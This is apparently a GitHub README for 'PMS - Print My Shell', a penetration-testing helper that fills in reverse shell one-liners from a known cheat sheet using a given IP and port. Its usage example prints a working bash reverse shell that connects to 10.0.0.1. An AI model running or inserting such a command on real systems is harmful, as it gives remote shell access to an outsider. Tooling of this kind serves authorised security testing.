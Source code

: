 # PMS
PMS - Print My Shell

PMS will help you get you revers shell filled with you IP and port number.
It's contains [pentestmonkey revers shell cheatsheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) shells.

Configuration
----------------
In ```pms.conf``` file you can set your  ```ethernet_interface``` name, ```ip``` address or ```port``` number
If your ```ip``` address is set in the conf file it won't use the ```ethernet_interface``` address
You can specifile your ```ip``` address or ```port``` number as an argument too.

Arguments
-----------------
```-t --type```: **required**, reverse shell type , (eg. "bash")
```-c --config```: *optional* , configuration file , ```<default> pms.conf```
```-i --ip```: *optional*, IP address
```-p --port```: *optional* port number


Usage
----------------
```sh
$ python3 pms.py --type bash
bash -i >& /dev/tcp/10.0.0.1/1111 0>&1
```
